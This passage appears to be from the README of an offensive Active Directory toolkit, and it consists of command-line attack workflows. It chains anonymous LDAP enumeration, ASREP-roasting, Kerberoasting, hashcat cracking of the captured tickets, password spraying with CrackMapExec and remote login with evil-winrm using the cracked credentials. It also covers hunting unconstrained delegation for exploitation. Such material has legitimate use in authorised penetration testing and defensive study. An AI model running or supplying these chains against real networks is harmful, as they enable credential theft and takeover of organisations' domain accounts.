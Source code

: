 ### Workflow 3: Unauthenticated Enumeration
```bash
# 1. Try anonymous LDAP bind
./ldapseek.py dclist.txt

# 2. If anonymous works, get users
./ldapseek.py dclist.txt --users

# 3. Find ASREPRoastable accounts (no auth needed)
./ldapseek.py dclist.txt --asrep

# 4. ASREPRoast them
../kerbseek/kerbseek.py --asreproast --users asrep_users.txt -d CORP --dc dc01.corp.local
```

### Workflow 4: Delegation Hunting
```bash
# 1. Full enumeration with delegation detection
./ldapseek.py dclist.txt --full -u user -p pass

# 2. Review delegation findings in ldap_details.txt
grep -A 10 "Delegation Accounts" ldap_details.txt

# 3. Look for unconstrained delegation
grep "TRUSTED_FOR_DELEGATION" ldap_details.txt

# 4. Exploit delegation (manual process or use Rubeus)
```

---

## 🎯 Integration with Other Tools

### Chain 1: LDAP → Kerberos → WinRM
```bash
# 1. Enumerate AD
./ldapseek.py dclist.txt --full -u user -p pass

# 2. Kerberoast service accounts
../kerbseek/kerbseek.py --kerberoast --spns spns.txt -d CORP --dc dc01.corp.local

# 3. Crack hashes
hashcat -m 13100 tgs_hashes.txt rockyou.txt

# 4. Use cracked credentials on WinRM
../winrmseek/winrmseek.py iplist.txt -t -u cracked_user -p cracked_pass
evil-winrm -i target -u cracked_user -p cracked_pass
```

### Chain 2: LDAP → Password Spray
```bash
# 1. Get all usernames
./ldapseek.py dclist.txt --users -u user -p pass

# 2. Password spray (use external tool like CrackMapExec)
crackmapexec smb iplist.txt -u users.txt -p 'Password123!' --continue-on-success

# 3. Use valid credentials
./ldapseek.py dclist.txt --full -u valid_user -p valid_pass
```
